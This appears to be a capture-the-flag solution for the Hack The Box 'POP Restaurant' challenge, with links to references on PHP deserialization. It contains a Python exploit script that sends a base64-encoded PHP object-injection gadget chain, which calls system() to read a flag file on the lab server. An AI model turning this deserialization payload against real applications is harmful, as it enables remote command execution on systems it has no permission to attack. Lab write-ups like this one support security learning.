 ```bash
python3 exploit.py
```
```bash
import re
import requests

url = "http://94.237.123.87:39567/order.php"

headers = {
    "Cookie": "PHPSESSID=df0b22519244ec847030ef5cebab356c"
}

data = {
    "data": "Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTowO2k6MDtpOjE7YToxOntpOjA7czoyNjoiY2F0IC9wQmhmTUJRbHU5dVRfZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0K"
}

response = requests.post(url, headers=headers, data=data, allow_redirects=False)
match = re.findall(r"HTB\{.*?\}", response.text)
if response.status_code == 302:
    if match:
        print(f"[+] FLAG FOUND: {match}")
    else:
        print(response.text)
        print("[-] No HTB flag found in response.")
else:
    print("[-] Request failed, check the URL or session.")
```


### Ctf
- https://app.hackthebox.com/challenges/POP%2520Restaurant
### Reference
- https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://medium.com/@abdallahomaratya0/pop-restaurant-challenge-htb-b10989577596

  - Image
![image](https://user-images.githubusercontent.com/36522826/202700374-52d36350-adff-4fe3-b46d-21f08955e8c6.png)


